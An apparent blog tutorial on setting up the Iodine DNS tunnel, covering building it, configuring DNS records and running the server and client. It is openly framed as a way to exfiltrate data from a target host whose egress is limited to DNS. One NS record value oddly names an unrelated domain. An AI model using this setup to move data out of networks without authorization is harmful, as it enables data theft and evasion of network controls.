 ```yaml
---
title: "Configuring Iodine"
date: 2021-05-19T10:08:56-08:00
draft: false
tags: 
- oob
- dns
- exfiltration
---
```

# Setting up and Using Iodine
## Introduction
What is Iodine? Rather than defining it, let's start with an example. Let's say you have physical access to a box and you desperately need to exfiltrate some data. However, you quickly discover that you cannot connect outbound on any port except 53. Basic protocol checks prevent you from simply configuring an FTP server on port 53 of your cloud server. And to throw another wrench into the gears, it seems like they have locked you into a set of standard public DNS servers anyway. How will you get any data out through just DNS destined for Google or Cloudflare servers? This is where Iodine comes in. (Some have also noted Iodine's usefulness in getting free wifi on planes and in hotels but we are not doing this)

Iodine provides a DNS tunnel on which other protocols such as HTTP or FTP can piggy back, allowing us to upload files with just access to public DNS servers. For more information on how non-DNS data may be carried over DNS, see our previous [blog](https://svl.sh/oob-dns/) on out-of-band DNS.

## What you need
- A domain. Grab one off Namecheap or Godaddy, to name a couple domain name registrars.
- A server to receive the DNS requests. A cloud server or virtual private server ("VPS") will be easiest, since it already has a public address and we won't need to port forward anything.
- A target. Probably one that has some painful networking restrictions.


## Step 1: Set up your server
First, create an Ubuntu server on your VPS provider of choice. On that server:
- Make sure you disable any conflicting DNS services on port 53. See other blogs on Linux sysadmin basics for more information on the command to use. Most likely, the following command will work:
```bash
systemctl stop systemd-resolved
```
You can also run `apt update` and `apt upgrade` as needed. This should not be an issue because you just made the VPS, and it should be a relatively new image. But it is good practice and may fix problems with outdated packages.

Let's compile and install the server binary (both the client and server binary are the same, just run with different arguments and flags).
First, clone the repository to your system.
```bash
git clone https://github.com/yarrick/iodine.git
```
Once the iodine repo is in your current directory, enter the directory with:
```bash
cd iodine
```
Ensure that you have the libz-dev installed. This library, used for data compression, is necessary for the compilation process (transporting data over DNS means that data compression is going to play a big role in maximizing throughput). Install the package using:
```bash
apt install libz-dev
```
Now we compile the app using:
```bash
make
```
And now install it (installing in general is moving files to the right locations for execution; here, we just move the compiled binary to a directory in the path). Use the command:
```bash
make install
```

##  Step 2: Configure your DNS entries
Next we need to ensure that DNS requests can reach our server. 
Our first entry will be to give our "DNS" server an FQDN. Go to your domain registrar's website and open the DNS settings for the domain you want to use.

We will start by adding an A record that will point to the IP of your hosted server. The entry should look something like the following, depending on your registrar's web site:
|Type |Host |Value | TTL |
|A Record | ns | IP Address | Auto |
An A record is one of the simplest types of records, and it determines what IP to direct traffic to when a certain hostname is requested. In this example, let's say you bought `testeroni.com`. The above record will direct any traffic destined for `ns.testeroni.com` to the IP address you specify. If you wanted another host on this domain, you can give it another name like `computer1` and it would be reachable on `computer1.testeroni.com`.

Now to get DNS traffic to our `ns.testeroni.com` host, we need to configure it to be the resolver for a subdomain we setup. For example, our subdomain can be called `s.testeroni.com`, any requests to resolve `[somehost].s.testeroni.com` will go to a specified name server. In this case, we will sit it to `ns.testeroni.com`.
|Type |Host |Value | TTL |
|NS Record | s | ns.potato.monster. | Auto |

Just as a recap, we have a subdomain called `s` of our domain `testeroni.com`. Any host information is specified before `s.testeroni.com`.

## Start up the server
```bash
iodined  -f -c -P [password] 192.168.77.1 s.testeroni.com
```
We will start with the `-f` option to start iodined in the foreground; this is going to help with troubleshooting. `-c` is used for compression, `-P` is to specify the password.
The IP address is the address you want for the *tunnel*. This should be a different subnet than your local network. You use these IPs to communicate between the two hosts through the tunnel. 

## Start the client program
```bash
iodine -f -P [password] s.testeroni.com
```
Here, we start the client program with a similar command, but note the lack of the d for daemon at the end. The client program will attempt to connect to the server using just DNS. Data will be encoded in the host section of the subdomain like so `[data].s.testeroni.com`.

## Test the connection
To test if the tunnel is configured properly, try using the following command from your client (and vice versa):
```bash
ping <tunnel-IP-of-server>
```
Any traffic that you need tunneled through DNS can simply be directed towards the server's tunnel IP. For specific application traffic to be forwarded, configure proxies (see http or SOCKS proxies) that will handle requests using the less restricted server side.

